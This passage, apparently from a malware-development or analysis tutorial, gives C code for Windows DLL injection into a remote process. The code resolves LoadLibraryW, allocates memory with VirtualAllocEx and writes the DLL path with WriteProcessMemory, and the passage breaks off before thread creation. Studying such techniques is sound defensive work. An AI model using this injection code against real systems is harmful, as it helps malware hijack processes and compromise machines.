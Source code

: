   ![error](/assets/images/malware-analysis/process_injection_pic/create_remote_threade.png)


## DLL Injection - Code Snippet
```c
BOOL InjectDllToRemoteProcess(IN HANDLE hProcess, IN LPWSTR DllName) {

	BOOL		bSTATE                    = TRUE;

	LPVOID		pLoadLibraryW             = NULL;
	LPVOID		pAddress                  = NULL;

	// fetching the size of DllName *in bytes*
	DWORD		dwSizeToWrite             = lstrlenW(DllName) * sizeof(WCHAR);

	SIZE_T		lpNumberOfBytesWritten    = NULL;

	HANDLE		hThread                   = NULL;

	pLoadLibraryW = GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryW");
	if (pLoadLibraryW == NULL){
		printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

	pAddress = VirtualAllocEx(hProcess, NULL, dwSizeToWrite, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (pAddress == NULL) {
		printf("[!] VirtualAllocEx Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

	printf("[i] pAddress Allocated At : 0x%p Of Size : %d\n", pAddress, dwSizeToWrite);
	printf("[#] Press <Enter> To Write ... ");
	getchar();

	if (!WriteProcessMemory(hProcess, pAddress, DllName, dwSizeToWrite, &lpNumberOfBytesWritten) || lpNumberOfBytesWritten != dwSizeToWrite){
		printf("[!] WriteProcessMemory Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

	printf("[i] Successfully Written %d Bytes\n", lpNumberOfBytesWritten);
	printf("[#] Press <Enter> To Run ... ");
	getchar();

```